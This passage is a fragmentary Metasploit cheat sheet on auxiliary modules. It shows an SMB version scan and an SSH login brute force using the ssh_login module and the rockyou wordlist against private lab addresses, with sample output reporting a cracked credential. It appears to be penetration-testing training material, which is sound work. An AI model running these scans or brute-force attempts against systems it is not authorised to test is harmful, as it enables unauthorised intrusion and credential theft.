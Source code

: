 ```shell
```

### Auxiliary Modules (Aux)

Show, Search and Use auxillary modules

The modules all follow a common slash-delimited hierarchical syntax (module type/os, vendor, app, operation, or protocol/module name), which makes it easy to explore and use the modules.

SMB Scanner

```shell
show auxiliary

# Scan SMB Version
search type:auxiliary smb

use auxiliary/scanner/smb/smb_version
# or index
use 56

msf6 auxiliary(scanner/smb/smb_version) >
info
show options

services -p 445 --rhosts
RHOSTS => 192.168.50.202
# or set manually
set RHOSTS 192.168.55.110
unset RHOSTS

run 
  [*] Auxiliary module execution completed
```

```plain
vulns
  7429/overview-of-server-message-block-signing
```

Brute Force SSH Logins

```shell
show auxiliary
search type:auxiliary ssh
  16  auxiliary/scanner/ssh/ssh_login                                        normal  No     SSH Login Check Scanner

use auxiliary/scanner/ssh/ssh_login

msf6 auxiliary(scanner/ssh/ssh_login) >

show options
set RHOSTS 192.168.55.110
set RPORT 22
set USERNAME user
set PASS_FILE /usr/share/wordlists/rockyou.txt

run
  [*] 192.168.55.110:22 - Starting bruteforce
  [+] 192.168.55.110:22 - Success: 'someuser:mypasswd' 'uid=1001(george)
```

